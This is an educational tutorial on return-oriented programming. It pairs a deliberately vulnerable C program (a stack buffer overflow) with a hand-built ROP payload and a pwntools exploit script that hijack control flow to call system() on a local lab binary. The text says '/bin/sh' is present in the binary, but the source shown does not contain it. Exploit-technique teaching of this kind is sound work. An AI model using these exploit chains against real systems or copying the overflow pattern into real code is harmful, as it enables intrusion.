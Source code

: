 # Introduction
Return-oriented programming is a set of techniques which allow code execution and bypass data execution prevention defences, such as NX, and code signing. ROP utilises *gadgets* in order to build chains and execute arbitrary instruction sequences.

Given control over the stack, an attacker may fill it with malicious return addresses, all pointing to the subsequent gadget in the ROP chain. When one gadget is executed, the `ret` instruction jumps to the address stored at the top of the stack and the stack pointer is incremented. Consequently, the stack pointer now points to the next malicious return address, forming a chain of gadgets.

## Gadgets
ROP gadgets are tiny instruction sequences which are already found in the target binary and end in a `ret` instruction. To manually find them within a binary, one might use a tool called `ROPgadget` with the following basic syntax:

`ROPgadget --binary [binary name]`

![](Resources/Images/ROP/ROP_ropgadget.png)

## Exploitation
```cpp
#include <stdio.h>
#include <stdlib.h>

void func()
{
	system("echo 'An inconspicuous echo...'");
}

void vuln()
{
	char input[20];
	fgets(input, 0x60, stdin);
}

int main()
{
	char* HarmlessString = "echo pwn";
	vuln();
	func();
	return 0;

}
```

We immediately notice a potential buffer overflow. Since `system` is called in the execution process of the binary, it will have a corresponding PLT entry. Furthermore, the string `"/bin/sh"` has been conveniently place in the binary - If we had the proper gadgets, we could string together a ROP chain, allowing us to execute `system("/bin/sh")`. Well, let's start digging.

Running ROPgadgets on the above binary reveals a way to write to `rdi`!
`0x000000000000126b : pop rdi ; ret`

Consequently, we can just write the address of the `"/bin/sh"` string in the binary, place it on the stack and, when the time comes, `rdi` will be populated with this address. All we will then need to do is return to the PLT entry of `system`, so that the function is invoked with the correct argument!

The addresses we need turn out to be:

`0x555555555040` - PLT entry of `system`
`0x55555555526b` - `pop rdi; ret` gadget
`0x555555556028` - `"/bin/sh"`
`0x5555555551ff` - the address we want to continue execution from once the ROP chain is finished

Knowing that we need exactly 40 character to overflow the return address of `vuln`, we get the following payload.

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6b\x52\x55\x55\x55\x55\x00\x00\x28\x60\x55\x55\x55\x55\x00\x00\x40\x50\x55\x55\x55\x55\x00\x00\xff\x51\x55\x55\x55\x55\x00\x00`

![](Resources/Images/ROP/ROP_manual.png)

Input file:

![](Resources/Images/ROP/ROP_manual_input.png)

And... exploit!

![](Resources/Images/ROP/ROP_manual_exp.png)

## Exploiting with pwntools
`pwntools` comes with tools for automating the process of finding gadgets and stringing them into chains for exploitation.

You will first need to load the ELF executable and specify its base address:
```python
elf = ELF('./rop')
elf.address = 0x555555554000
```

Subsequently, initialise a ROP object:
```python
rop = ROP(elf)
```
## Pwntools ROP commands
Get a dictionary of available gadgets:
```python
rop.gadgets
```

![](Resources/Images/ROP/ROP_pwn_gadgets.png)

Insert raw bytes into the chain:
```python
rop.raw(bytes)
```

![](Resources/Images/ROP/ROP_pwn_raw.png)

Call functions:
```python
rop.call(symbol, [arguments])
```

![](Resources/Images/ROP/ROP_pwn_call.png)

Get chain as bytes:
```python
rop.chain()
```

![](Resources/Images/ROP/ROP_pwn_chain_bytes.png)

### The Exploit
Using the above cheatsheet, we arrive at the following python script for exploitation:
```python
#!/usr/bin/python3

from pwn import *

context.clear(arch='amd64')
elf = ELF('./rop')
elf.address = 0x555555554000

rop = ROP(elf)
rop.call(elf.symbols['system'], [next(elf.search(b"echo pwn\x00"))])

prog = process('./rop')

payload = [b"A"*40, rop.chain()]
payload = b"".join(payload)

prog.sendline(payload)
prog.interactive()

```

![](Resources/Images/ROP/ROP_pwn_success.png)

